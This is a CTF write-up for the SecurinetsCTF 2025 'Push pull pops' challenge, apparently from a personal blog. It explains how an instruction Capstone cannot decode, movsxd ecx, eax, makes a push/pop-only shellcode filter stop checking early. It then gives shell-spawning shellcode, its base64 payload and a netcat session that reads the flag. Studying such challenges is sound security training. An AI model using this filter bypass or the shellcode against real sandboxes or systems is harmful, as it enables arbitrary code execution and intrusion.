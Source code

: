 +++
author = "vmpr0be"
title = "SecurinetsCTF 2025 Quals - Push pull pops"
date = "2025-10-05"
categories = ["ctf"]
+++

### Overview

We're given a Python script that takes base64 input and decodes it, expecting x86_64 assembly code to execute.

```python
...
from capstone import Cs, CS_ARCH_X86, CS_MODE_64
from capstone import CS_OP_REG
...

def check(code: bytes):
    if len(code) > 0x2000:
        return False

    md = Cs(CS_ARCH_X86, CS_MODE_64)
    md.detail = True

    for insn in md.disasm(code, 0):
        name = insn.insn_name()
        if name!="pop" and name!="push" :
            if name=="int3" :
                continue
            return False
        if insn.operands[0].type!=CS_OP_REG:
            return False
            
        
    return True

def run(code: bytes):
    # Runs the code
    ...

def main():
    code = input("Shellcode : ")
    code = base64.b64decode(code.encode())
  
    ...

    if check(code):
        run(code)
  
    ...
```

We notice that the disassembler used in this challenge is [Capstone](https://github.com/capstone-engine/capstone).

For the script to run the given code, the following conditions must be met:
- The disassembled instruction must be `PUSH`, `POP`, or `INT3`.
- The `PUSH` and `POP` instructions must only contain a `REGx` as the first operand.

If any condition isn't met, the program will not run our code.

### Vulnerability

The vulnerability is in the check function, it keeps disassembling instructions until it hits an invalid instruction. This means if we provide an invalid instruction as the first instruction, it won't be disassembled without returning an error, thus skipping the next instructions.

### Exploitation

To exploit this vulnerability, we need to find an instruction that is valid to execute by the CPU but considered invalid for the disassembler.

Luckily there's [a still open issue](https://github.com/capstone-engine/capstone/issues/2442) about an instruction that isn't correctly disassembled which is then deemed invalid.
After slight edit of the problematic instruction, we end up with the following instruction:

```python
movsxd ecx, eax 
```

We just need to insert this instruction at the beginning of our shellcode to make the check function exit early due to that instruction being invalid.

```python
shellcode = b"\x63\xc8" # movsxd ecx, eax
shellcode += asm(shellcraft.sh()) # crafted shellcode that opens a shell
```

We then encode the shellcode in base64 and give it to the server:

```bash
> nc pwn-14caf623.p1.securinets.tn 9001

Shellcode : Y8hqaEi4L2Jpbi8vL3NQSInnaHJpAQGBNCQBAQEBMfZWagheSAHmVkiJ5jHSajtYDwU=

# We're now in a shell
> cat app/flag.txt
> Securinets{push_pop_to_hero}
```
